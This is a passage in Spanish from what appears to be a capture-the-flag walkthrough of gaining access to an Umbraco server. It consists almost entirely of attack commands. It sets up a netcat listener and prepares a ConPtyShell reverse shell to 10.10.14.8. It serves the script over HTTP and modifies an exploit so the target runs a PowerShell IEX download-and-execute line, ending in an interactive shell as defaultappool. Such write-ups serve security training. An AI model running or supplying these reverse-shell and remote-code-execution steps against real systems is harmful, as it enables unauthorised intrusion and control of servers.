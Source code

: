 Nos ponemos en escucha por trazas icmp

```bash
tcpdump -i tun0 icmp -n
```

y lanzamos el exploit con `python umbraco_exploit.py` y vemos que tenemos capacidad de ejecucion de comandos.


## Vuln exploit & Gaining Access {-}

### Umbraco {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Recuperamos conPtyShell

    ```bash
    git clone https://github.com/antonioCoco/ConPtyShell
    cd ConPtyShell
    cp invoke-ConPtyShell.ps1 ../conptyshell.ps1
    cd ..
    vi conptyshell.ps1
    ```

1. Añadimos al final del fichero el commando

    ```powershell
    Invoke-ConPtyShell -RemoteIp 10.10.14.8 -RemotePort 443 -Rows 52 -Cols 189
    ```

1. Creamos un servidor http con python

    ```bash
    python -m http.server 80
    ```

1. Modificamos el commando a lanzar en el umbraco_exploit.py

    ```python
    proc.StartInfo.FileName = "cmd.exe"
    cmd = "/c powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.8/conptyshell.ps1\')"
    ```

1. Lanzamos el script

    ```bash
    python3 umbraco_exploit.py
    ```

Aqui vemos que hemos ganado acceso al systema como el usuario **defaultappool** con una shell totalmente interactiva.
